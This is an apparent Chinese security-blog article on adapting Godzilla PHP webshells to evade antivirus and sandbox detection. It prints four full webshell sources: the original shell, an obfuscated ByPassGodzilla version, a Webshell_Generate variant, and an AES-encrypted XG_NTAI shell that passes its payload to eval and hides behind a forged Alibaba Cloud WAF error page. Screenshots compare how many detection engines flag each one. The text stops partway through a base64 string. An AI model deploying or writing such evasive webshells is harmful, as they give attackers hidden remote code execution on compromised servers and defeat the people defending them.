# 安全对抗：如何在哥斯拉二开中无缝集成 PHP 免杀&伪造阿里云waf防检测-先知社区

> **来源**: https://xz.aliyun.com/news/17192  
> **文章ID**: 17192

---

## 安全对抗：如何在哥斯拉二开中无缝集成 PHP 免杀&伪造阿里云waf防检测

目前的 webshell 的话因为太普通，基本上一传上去就被识别了

我们看看原本上传的木马，这里以 php 木马为例子

```
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='a';
$payloadName='payload';
$key='0cc175b9c0f1b6a8';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
        eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

拿着去看看实力





然后尝试使用我们的工具

我没有跑完，但是已经监测出很多了

### ByPassGodzilla

<https://github.com/Tas9er/ByPassGodzilla>



我们生成了一个免杀的 php 马子

```
Hello Administrator!
WelCome To Tas9er Godzilla PHP Console!
<?pHP
@session_start();
@set_time_limit(Chr("48"));
@error_reporting/*fuckgovC*/(Chr("48"));
function baidu4tUQztjr(/*fuckgovwL27jl*/$baidu4AaXh4vd60Sr0J,$baiduPgF2838){
    for($baidup3ieeeAPMpJN=Chr("48");$baidup3ieeeAPMpJN<strlen($baidu4AaXh4vd60Sr0J);$baidup3ieeeAPMpJN++) {
        $baiduq0wCDGxd9 = $baiduPgF2838[$baidup3ieeeAPMpJN+Chr("49")&15];
        $baidu4AaXh4vd60Sr0J[$baidup3ieeeAPMpJN] = $baidu4AaXh4vd60Sr0J[$baidup3ieeeAPMpJN]^$baiduq0wCDGxd9;
    }
    return $baidu4AaXh4vd60Sr0J;
}
$baidu4Bu = "bas"."e6".Chr("52")."_"."de"."cod".Chr("101");
$base64_baidu4tUQztjr = "bas"."e6".Chr("52")."_e".Chr("110").Chr("99")."ode";
$baidubvxequx3=("&"^"r").("7"^"V").("I"^":").("p"^"I").("_"^":").$baidu4Bu($baidu4Bu("Y2c9PQ=="));
$baidujTABcfFhsHi0M='p'.$baidu4Bu($baidu4Bu("WVhsc2IyRms="));
$baidud='c52500ca'.$baidu4Bu("MzJhZjJiODA=");
$baidujUWONVClUb83iD=("!"^"@").'ss'.Chr("101").'rs';
$baidujUWONVClUb83iD++;
if (isset($_POST/*fuckgovRXX*/[$baidubvxequx3])){
    $datbaidujUWONVClUb83iD=baidu4tUQztjr/*fuckgov3aFleUfz*/($baidu4Bu($_POST[$baidubvxequx3]),$baidud);
    if (/*fuckgovyywDU2cEzANvj*/isset($_SESSION/*fuckgovpxJQXPUgMBGI*/[$baidujTABcfFhsHi0M])){
        $baiduvcg0J3bJMRGWKfs=baidu4tUQztjr($_SESSION/*fuckgovtFzg9NE6qFh1*/[$baidujTABcfFhsHi0M],$baidud);
        if (/*fuckgoviPm*/strpos($baiduvcg0J3bJMRGWKfs,$baidu4Bu/*fuckgov1*/($baidu4Bu("WjJWMFFtRnphV056U1c1bWJ3PT0=")))===false){
            $baiduvcg0J3bJMRGWKfs=baidu4tUQztjr/*fuckgov5*/($baiduvcg0J3bJMRGWKfs,$baidud);
        }
        define("baiduS91g","//baiduyLS8emoa\r
".$baiduvcg0J3bJMRGWKfs);
        $baidujUWONVClUb83iD(baiduS91g);
        echo substr(/*fuckgovTqb2E*/md5/*fuckgovB*/($baidubvxequx3.$baidud),Chr("48"),16);
        echo $base64_baidu4tUQztjr(baidu4tUQztjr(@run($datbaidujUWONVClUb83iD),$baidud));
        echo substr(/*fuckgovHjQeiCOZ*/md5/*fuckgovABlkhRvOE8*/($baidubvxequx3.$baidud),16);
    }else{
        if (strpos/*fuckgovoYpqjp*/($datbaidujUWONVClUb83iD,$baidu4Bu($baidu4Bu("WjJWMFFtRnphV056U1c1bWJ3PT0=")))!==false){
            $_SESSION[$baidujTABcfFhsHi0M]=baidu4tUQztjr($datbaidujUWONVClUb83iD,$baidud);
        }
    }
}
?>

```

可以看到可读性是差了很多，丢进沙箱看看



可以看到是少了很多，但是依然检测出来了

微步的  


微步只是简单警告了

### Webshell\_Generate

<https://github.com/cseroad/Webshell_Generate>



我们使用这个生成一个

内容如下

```
<?php @session_start();@set_time_limit(0);@error_reporting(0);function encode($D,$K){for($i=0;$i<strlen($D);$i++) {$c = $K[$i+1&0xF];$D[$i] = $D[$i]^$c;}return $D;}$payloadName='load1689';$key='0cc175b9c0f1b6a8';$pass='a';if (isset($_POST[$pass])){$bs = preg_replace('/\*/', '', 'base*64*_deco*de');$p = $_POST[$pass];$data=encode($bs($p.""),$key);if (isset($_SESSION[$payloadName])){$payload=encode($_SESSION[$payloadName],$key);if (strpos($payload,"getBasicsInfo")===false){$payload=encode($payload,$key);}class GH70y973{ public function __construct($payload) {@eval("/*Z86m634950*/".$payload."");}}new GH70y973($payload);echo substr(md5($pass.$key),0,16);echo base64_encode(encode(@run($data),$key));echo substr(md5($pass.$key),16);}else{if (strpos($data,"getBasicsInfo")!==false){$_SESSION[$payloadName]=encode($data,$key);}}}
```

然后看看实力

发现还是很一般啊



微步的

不等了



### XG\_NTAI

<https://github.com/xiaogang000/XG_NTAI>





这个比较高级了，还可以伪造

然后生成木马

```
<?php
error_reporting(0);
class cFile {
    public static function selectFile($filename){
        $sign = 'fc70f4eeba33b088';
        $fileurl = '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';
        $file = openssl_decrypt(cFile::de($fileurl), "AES-128-ECB", $sign,OPENSSL_PKCS1_PADDING);
        $file_error = $$filename;
        @eval($file_error);
        return "filename";
    }
    public static function getPriv() {
        return 'selectFile';
    }
    public static function de($fileurl){
        return base64_decode($fileurl);
    }
}
//$cfile = 'cFile';
$cfile = $_GET['oz4q0n'];
$error = [$cfile,[$cfile,'getPriv']()];
$error('file');

$uiUTVz = "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9InpoLWNuIj4KCjxoZWFkPgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgogICAgPG1ldGEgaHR0cC1lcXVpdj0iWC1VQS1Db21wYXRpYmxlIiBjb250ZW50PSJJRT1lZGdlLGNocm9tZT0xIj4KICAgIDxtZXRhIG5hbWU9ImRhdGEtc3BtIiBjb250ZW50PSJhM2MwZSIgLz4KICAgIDx0aXRsZT4KICAgICAgICA0MDUKICAgIDwvdGl0bGU+CiAgICA8c2NyaXB0IHNyYz0iLy9nLmFsaWNkbi5jb20vY29kZS9saWIvcXJjb2RlanMvMS4wLjAvcXJjb2RlLm1pbi5qcyI+PC9zY3JpcHQ+CiAgICA8c3R5bGU+CiAgICAgICAgaHRtbCwKICAgICAgICBib2R5LAogICAgICAgIGRpdiwKICAgICAgICBhLAogICAgICAgIGgyLAogICAgICAgIHAgewogICAgICAgICAgICBtYXJnaW46IDA7CiAgICAgICAgICAgIHBhZGRpbmc6IDA7CiAgICAgICAgICAgIGZvbnQtZmFtaWx5OiDlvq7ova/pm4Xpu5E7CiAgICAgICAgfQoKICAgICAgICBhIHsKICAgICAgICAgICAgdGV4dC1kZWNvcmF0aW9uOiBub25lOwogICAgICAgICAgICBjb2xvcjogIzNiNmVhMzsKICAgICAgICB9CgogICAgICAgIC5jb250YWluZXIgewogICAgICAgICAgICB3aWR0aDogMTAwMHB4OwogICAgICAgICAgICBtYXJnaW46IGF1dG87CiAgICAgICAgICAgIGNvbG9yOiAjNjk2OTY5OwogICAgICAgIH0KCiAgICAgICAgLmhlYWRlciB7CiAgICAgICAgICAgIHBhZGRpbmc6IDUwcHggMDsKICAgICAgICB9CgogICAgICAgIC5oZWFkZXIgLm1lc3NhZ2UgewogICAgICAgICAgICBoZWlnaHQ6IDM2cHg7CiAgICAgICAgICAgIHBhZGRpbmctbGVmdDogMTIwcHg7CiAgICAgICAgICAgIGJhY2tncm91bmQ6IHVybChodHRwczovL2Vycm9ycy5hbGl5dW4uY29tL2ltYWdlcy9UQjFUcGFtSHBYWFhYYUpYWFhYZUI3bllWWFgtMTA0LTE2Mi5wbmcpIG5vLXJlcGVhdCAwIC0xMjhweDsKICAgICAgICAgICAgbGluZS1oZWlnaHQ6IDM2cHg7CiAgICAgICAgfQoKICAgICAgICAubWFpbiB7CiAgICAgICAgICAgIHBhZGRpbmc6IDUwcHggMDsKICAgICAgICAgICAgYmFja2dyb3VuZDoKICAgICAgICAgICAgICAgICNmNGY1Zjc7CiAgICAgICAgfQoKICAgICAgICAubWFpbiBpbWcgewogICAgICAgICAgICBwb3NpdGlvbjogcmVsYXRpdmU7CiAgICAgICAgICAgIGxlZnQ6IDEyMHB4OwogICAgICAgIH0KCiAgICAgICAgLmZvb3RlciB7CiAgICAgICAgICAgIG1hcmdpbi10b3A6CiAgICAgICAgICAgICAgICAzMHB4OwogICAgICAgICAgICB0ZXh0LWFsaWduOiByaWdodDsKICAgICAgICB9CgogICAgICAgIC5mb290ZXIgYSB7CiAgICAgICAgICAgIHBhZGRpbmc6IDhweCAzMHB4OwogICAgICAgICAgICBib3JkZXItcmFkaXVzOgogICAgICAgICAgICAgICAgMTBweDsKICAgICAgICAgICAgYm9yZGVyOiAxcHggc29saWQgIzRiYWJlYzsKICAgICAgICB9CgogICAgICAgIC5mb290ZXIgYTpob3ZlciB7CiAgICAgICAgICAgIG9wYWNpdHk6IC44OwogICAgICAgIH0KCiAgICAgICAgLmFsZXJ0LXNoYW